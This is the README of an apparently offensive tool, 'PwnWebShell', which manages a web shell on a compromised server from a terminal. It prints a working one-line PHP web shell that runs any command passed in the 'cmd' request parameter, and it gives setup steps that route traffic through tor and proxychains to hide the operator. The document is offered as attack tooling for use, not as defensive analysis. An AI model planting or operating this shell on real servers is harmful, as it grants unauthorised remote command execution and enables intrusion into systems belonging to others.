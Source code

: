 # PwnWebShell
Tool to facilitate the management of our webshell from a terminal.

All we need, is to upload to the committed server a PHP structure like the following to execute commands:

```
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```



**Requirements - curl tor proxychains rlwrap**

`sudo apt install curl tor proxychains-ng rlwrap -y`

<details><summary>Installation</summary>

  
1. `git clone https://github.com/DarkTrojanDev/PwnWebShell.git`


2. `chmod +x pwnwebshell.sh`


3. `sudo rlwrap ./pwnwebshell.sh`
  

